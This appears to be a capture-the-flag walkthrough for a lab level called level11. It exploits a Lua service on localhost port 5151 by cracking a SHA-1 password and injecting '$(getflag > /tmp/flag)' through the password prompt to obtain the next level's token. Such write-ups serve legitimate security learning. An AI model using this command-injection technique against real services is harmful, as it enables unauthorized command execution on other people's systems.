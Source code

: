 # Level11

## Objective
Exploit the `level11` Lua script to find the correct password by providing its SHA-1 hash. Use command injection to execute `getflag` and retrieve the token.

## Steps

### Step 1: Find Password for SHA-1 Hash
Use an online tool or a hash database to find the password corresponding to the given SHA-1 hash (`f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`). The password is `NotSoEasy`.

### Step 2: Test Password Input
Attempt to input the password using `echo` with and without the newline character:

```bash
echo -n NotSoEasy | nc localhost 5151
```

### Step 3: Command Injection

Launch the client:

```bash
nc localhost 5151
```

Try command injection by inputting the following password:

```bash
$(getflag > /tmp/flag)
```

### Step 4: Obtain Token
Check the contents of the `/tmp/flag` file:

```bash
cat /tmp/flag
```

This should give you the token for `level12`.

### Step 5: Switch to `level12`
Switch to the `level12` user:

```bash
su level12
```

### Step 6: Verify
Execute `getflag` to verify that you have access:

```bash
getflag
```

This should give you the flag for this level.

Congratulations! You've successfully exploited the `level11` Lua script to obtain the token for `level12`.